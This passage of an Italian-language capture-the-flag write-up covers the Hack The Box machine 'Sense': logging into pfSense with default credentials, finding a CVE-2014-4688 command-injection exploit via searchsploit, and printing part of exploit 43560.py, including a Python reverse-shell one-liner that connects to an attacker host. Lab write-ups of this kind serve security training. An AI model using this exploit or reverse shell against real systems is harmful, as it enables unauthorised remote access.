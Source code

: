 Abbiamo delle credenziali !
Il nome utente è rohit e la password è la password predefinita pfsense. Accediamo all'applicazione.

![](../zzz_rev/attachments/sense4.png)

# GAINING AN INITIAL FOOTHOLD

Vediamo le versione di pfSenes che è la 2.1.3, se torniamo hai nostri risultati di searchsploit ci spicca un risultato 

```bash
pfSense < 2.1.4 - 'status_rrd_graph_img.php' CommandInjection|php/webapps/43560.py
```

lo scarichiamo  e gli diamo un occhio :

```bash
┌──(root㉿kali)-[/home/kali/htb/sense]
└─# searchsploit  -m 43560.py
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
    Codes: CVE-2014-4688
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/htb/sense/43560.py

┌──(root㉿kali)-[/home/kali/htb/sense]
└─#cat 43560.py

.....
# command to be converted into octal  
command = """  
python -c 'import socket,subprocess,os;  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);  
s.connect(("%s",%s));  
os.dup2(s.fileno(),0);  
os.dup2(s.fileno(),1);  
```